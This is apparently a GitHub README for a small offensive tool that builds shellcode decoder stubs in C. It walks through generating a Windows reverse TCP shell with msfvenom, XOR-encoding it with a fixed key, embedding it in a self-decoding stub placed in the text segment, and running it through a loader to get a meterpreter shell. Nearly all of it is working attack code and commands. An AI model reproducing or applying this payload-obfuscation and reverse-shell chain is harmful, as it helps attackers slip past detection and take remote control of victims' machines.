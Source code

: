 # easy-decoderstub
An easy way to create decoder stubs in C


I wanted to look at how decoder stubs work. After that I wanted to have a simple method to avoid having to write complicated encodings/decodings in assembler. So I embed the encoded shellcode in the text segment of a C program that can be used as a PIC. After extracting the shellcode of the PIC, it can be executed in a loader. 

> Since the shellcode changes itself, the memory must be RWX.


# How to use

> I use a C-Encoder, you can use what you like most. 

* Create your shellcode.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.11 LPORT=443 -f c
```

* Copy shellcode into encoder-xor.c, compile and run it.

```c
#include <windows.h>
#include <stdio.h>


int main () 
{
    char key[] = "supersecret";
    unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
	...

    int j = 0;
    for (int i = 0; i < sizeof buf; i++) 
    {
        if (j == sizeof key - 1) j = 0;

        buf[i] = buf[i] ^ key[j];
        j++;
    }

    for (int i = 0; i < sizeof buf; i++)
    {
        printf("\\x%x", (unsigned char)buf[i]);
    }
}
```

```
x86_64-w64-mingw32-gcc encoder-xor.c -o encoder-xor.exe
```

```
.\encoder-xor.exe
\x8f\x3d\xf3\x81\x82\x9b\xa5\...
```

* Copy encoded shellcode in decoderstub.c, compile it. 

> Here you can code fancy stuff and have not to write it in assembly.

```c
#include "windows.h"

// Contains shellcode of loader
char buf[]  __attribute__((section(".text"))) = "\x8f\x3d\xf3\x81...";
char key[]  __attribute__((section(".text"))) = "supersecret";
void go() 
{
    int j = 0;
    for (int i = 0; i < sizeof buf; i++) 
    {
        if (j == sizeof key - 1) j = 0;

        buf[i] = buf[i] ^ key[j];
        j++;
    }

    (*(void(*)())(&buf))();
}
```

```
./compile.sh
```

* Compile and run the loader to get the meterpreter shell.

```
x86_64-w64-mingw32-gcc loader.c -o loeader.exe
```

```
.\loader.exe .\decoderstub.bin
```

![alt text](screenshot.png)


